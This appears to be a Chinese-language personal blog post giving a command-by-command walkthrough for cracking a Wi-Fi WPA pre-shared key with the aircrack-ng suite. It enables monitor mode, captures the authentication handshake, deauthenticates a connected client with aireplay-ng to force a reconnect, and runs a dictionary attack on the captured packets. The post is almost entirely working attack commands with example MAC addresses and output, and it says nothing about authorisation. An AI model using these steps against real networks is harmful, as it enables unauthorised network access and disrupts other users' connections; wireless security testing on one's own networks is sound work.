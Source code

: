 ```yaml
---
layout: "post"
title: "aircrack"
categories: blog
tags: ['tool']
published: true
comments: true 
script: [post.js]
---
```


* TOC
{:toc}

**事先申明，以下方法仅作为个人参看，只适用于特定的系统特定网卡/驱动，欲知全面详细的教程，请自行google aircrack**


*以下的例子假设要破解的AP的channel为9*

# 0. 安装aircrack

# 1. 以monitor模式启动无线网卡设备

执行：

    $ sudo airmon-ng stop wlan0mon
    $ sudo airmon-ng start wlan0 9

此时，系统输出：

    PHY     Interface       Driver          Chipset

    phy0    wlan0           ath9k           Qualcomm Atheros AR9285 Wireless Network Adapter (PCI-Express) (rev 01)
                    (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                    (mac80211 station mode vif disabled for [phy0]wlan0)
  
如果需要退出monitor mode，则输入：

    $ sudo airmon-ng stop wlan0mon

# 2. 启动airodump-ng来收集authentication handshake

执行：

    $ airodump-ng [-c <channel>] [--bssid <AP MAC>] -w psk <interface>
    # e.g. $ airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon
    # e.g. $ airodump-ng -c 9 -w psk wlan0mon

其中：

* -c 9: channel for the wireless network
* --bssid 00:14:6C:7E:40:80: 想要破解的AP MAC address
* -w psk: 输出文件的前缀，包含IVs
* wlan0mon: 无线网卡接口名

# 3. 同时打开另一个窗口, 执行aireplay-ng使连接在你想要破解的AP上的客户端瞬间断开连接，触发重连

执行：

    $ aireplay-ng -0 <times> -a <AP MAC>  -c <CLIENT MAC> <interface>
    # e.g. $ aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon

其中：

* -0: deauthentication
* 1: number of deauths to send
* -a 00:14:6C:7E:40:80: MAC address of AP
* -c 00:0F:B5:FD:FB:C2: MAC address of client you're deauthing
* wlan0mon: interface name

**注意**：在之前的窗口（2），只有当`handshake`在右上角显示才意味着包含加密密码的包已经获得。记得保持你的网卡channel和你要破解的AP的channel一致。

# 4. 执行aircrack-ng来破解pre-shared key

执行：

    $ aircrack-ng -w <dict file> -b <AP MAC> <package name>
    # e.g. $ aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap

其中：

* -w password.lst: File name of the dictionary file
* psk*.cap:  Name of group of files containing the captured packets. 

